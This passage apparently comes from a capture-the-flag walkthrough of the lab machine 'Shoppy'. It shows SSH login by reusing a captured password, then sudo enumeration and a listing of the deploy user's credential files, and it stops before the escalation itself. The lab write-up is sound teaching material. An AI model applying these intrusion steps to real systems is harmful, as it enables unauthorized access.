 Now we got the CEO’s password too from the deploy machine sidebar. We have tried josh password for ssh connection but it did not work, let’s try password reuse on the server with the CEO’s password given here

and there was the ssh’s password

```bash
➜  ssh jaeger@shoppy.htb -o UserKnownHostsFile=/dev/null                                                 
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb' (ED25519) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ whoami; hostname -I
jaeger
10.10.11.180 172.17.0.1 dead:beef::250:56ff:feb9:621e
```

Let’s enumerate the system now to look for the path to privilege escalation

# Privilege Escalation

First thing first is to see, what command the current user can run as root by running `sudo -l`

```bash
sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

jaeger can run `/home/deploy/password-manager` without using a password as deploy not root, let’s investigate this file to see what’s the binary about

being in another user’s home folder, let’s look at the access we got to the files in the folder

```bash
jaeger@shoppy:/home/deploy$ ls -l
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```
